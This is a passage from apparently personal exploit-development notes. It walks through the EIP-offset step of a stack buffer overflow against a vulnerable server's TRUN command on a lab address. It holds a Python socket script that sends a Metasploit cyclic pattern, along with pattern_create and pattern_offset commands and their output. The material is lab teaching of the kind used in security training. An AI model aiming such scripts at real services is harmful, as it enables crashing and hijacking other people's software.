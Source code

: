 ![](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_TRUN_crash_at_2100.png)

## Find EIP Offset

Now that we know the application crashes at around 2100 bytes we should try to pinpoint the offset of the EIP register.  
We want todo this since the EIP contains the address of the next instruction, meaning if we control the EIP we can control what the program does next.  

To find the offset we can use a pattern, one we can use `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb`

```
root@kali:/mnt/hgfs/_shared_folder/BO# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2200
```

```python
#!/usr/bin/python 

import socket,sys

address = '192.168.136.130'
port    = 9999

#offset  = around 2100

pattern = b"Aa0Aa1Aa....7Cu8Cu9Cv0Cv1Cv2C"  # output of pattern_create.rb
buff    = b""              # empty byte var
buff    = b"%s" % pattern  # add pattern to buff

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"TRUN /.:/%s" % buff) 
except RuntimeError as Err:
	print(f'[!] Unable to connect to the application. {err}')
	sys.exit(0)
finally:
	s.close()

```

![](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_offset_1.png)


EIP value: 386f4337 (8oC7)

To find the offset we can use /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb

```bash
root@kali:/mnt/hgfs/_shared_folder/BO /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2200 -q 386f4337
[*] Exact match at offset 2003
```
